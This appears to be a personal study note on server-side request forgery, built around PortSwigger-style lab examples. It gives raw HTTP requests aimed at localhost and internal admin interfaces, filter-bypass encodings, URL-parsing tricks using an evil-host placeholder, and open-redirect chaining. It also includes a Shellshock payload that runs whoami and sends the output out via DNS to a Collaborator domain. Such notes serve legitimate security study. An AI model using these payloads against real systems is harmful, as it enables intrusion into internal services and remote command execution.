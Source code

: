 #SSRF #Completed

![[SSRF.jpg]]
# Server-Side Request Forgery (SSRF)

An attacker can cause a server to make a connection to internal-only services within an organization or force the server to connect to external systems.

For SSRF attacks against a server, attackers cause it to make HTTP requests back to the server hosting the app, via loopback address typically via supplying a URL with a hostname like `127.0.0.1` or `localhost`. 
# SSRF Attacks Against Server

An app may show if an item is in stock via a query to a backend REST API by passing the URL via front-end HTTP request:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

Request can be modified to specify a URL local to the server:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

For example, there may be functions to delete users located at `/admin/delete?username=carlos` which could be called and executed via SSRF:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin/delete?username=carlos
```
# SSRF Against Back End Systems

Sometimes, the app server can interact with back-end systems which often have private IP addresses and protected by network topology. Internal backend systems may contain sensitive functionality without needing authentication.

For example, there may be an administrative interface on an IP such as `https://192.168.0.68/admin`. If so, a request such as the following can be sent:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

If the IP address is not known, use Burp Intruder to attempt to guess the internal IP address by adding an insertion point as the last octet (`192.168.0.x`) and a payload list of 1-255:

```json
stockApi=http://192.168.0.§1§:8080/admin&storeId=1
```

>[!info]
>The same can be done for the ports and the directories via fuzzing.
# SSRF Blacklist-Based Input Filters

Some apps block input with values such as `127.0.0.1` or `localhost` or sensitive URLS such as `admin`. Some bypasses may include:

- Alternative IP representation such as `2130706433`, `01770000001` or `127.1`
- Using a domain that resolves to `127.0.0.1` such as `spoofed.burpcollaborator.net`
- Obfuscating blocked strings using URL encoding or case variation
- Using URLs you control which redirect to target URL using different redirect codes, and different protocols (e.g. from `http` to `https:`).

For example, try seeing if the IP can be bypassed first such as:

```json
stockApi=http://127.1&storeId=1
```

If so, try adding sensitive URLs such as `/admin` and see if filters are in place. If so, try various methods such as case variation:

```json
stockApi=http://127.1/aDmIn&storeId=1
```

Or URL encoding or double URL encoding:

```json
stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65&storeId=1
```
# SSRF Whitelist-Based Input Filters

Some apps may use whitelists which look for a match at the beginning of the input, or contained inside it which can be bypassed by exploiting inconsistencies in URL parsing. URL specification has features that are likely overlooked when URLs implement ad-hoc parsing and validation such as:

- Embedding credentials in a URL before hostname using `@` - `https://expected-host:fakepassword@evil-host`
- Using `#` to indicate a URL fragment - `https://evil-host#expected-host`
- Leveraging DNS naming hierarchy to place required input into a FQDN you control - `https://expected-host.evil-host`
- URL encoding characters to confuse URL-parsing code. Good if it encodes characters differently than the code that performs back end HTTP requests. Attempt double URL encoding as well.
# SSRF via Open Redirection

Filters can be bypassed via an open redirection vulnerability. For example, imagine the user-submitted URL is validated, but the application whose URLs are allowed contains an open redirection vulnerability.

If the API used to make back end requests supports redirections, a URL can be used to satisfy the filter and redirect a request to the desired back end system such as:

```json
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

Try leveraging the open redirection to bypass the URL filter via a request such as:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

The app may first validate the URL is allowed, requests the supplied URL and triggers open redirection. For example, a "Next Product" option may include a path parameter. If so, the payload can be used as follows:

```json
/product/nextProduct?path=http://192.168.0.12:8080/admin
```
# Blind Server-Side Request Forgery

In blind SSRF, the response is not returned in the app's front-end response. To find them, try using out-of-band (OAST) techniques by attempting to trigger an HTTP request to an external system and monitoring for network interactions.

Try using Collaborator to generate unique domain names, send them in payloads and monitor for any interactions. If an HTTP request is received, it is vulnerable.

>[!info]
>It's common to observe a DNS look up, but no HTTP request as the app attempted to make an HTTP request, causing a DNS request but HTTP requests were blocked. 

Try testing every parameter that potentially talks to the back end via a URL. Try submitting a Collaborator 
payload in various areas, such as the `Referer` header. If a request is received, it may be vulnerable.

To exploit blind SSRF, combine it with other attacks such as Shellshock. For example, the `Referer` header may be vulnerable to SSRF and send the User-Agent string with the HTTP request. If so, use the following payload as the User Agent:

```json
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

Change the `Referer` header to `http://192.168.0.1:8080` and fuzz the IP address using Burp Intruder. If vulnerable, a DNS request will be present in Collaborator containing the result of the `whoami` command.
# Hidden Attack Surface for SSRF

SSRF can be easy to find as the normal traffic involves request parameters containing full URLs. Some other examples are harder.

Sometimes, apps place only a hostname or part of a URL path into request parameters. The value submitted is incorporated server-side into a full URL. If the value is readily recognized as a hostname or URL path, the attack may be obvious. Exploitability as full SSRF might be limited as you can't control the entire URL.

Some apps transmit data in formats with a specification allowing the inclusion of URLS that might get requested by the data parser such as the XML data format. When an app accepts data in XML format and parses it, it may be vulnerable to XXE injection or vulnerable to SSRF via XXE.

Some apps use server-side analytics software to track visitors which often logs Referer headers in requests. The Referer header can be a useful attack surface for SSRF.

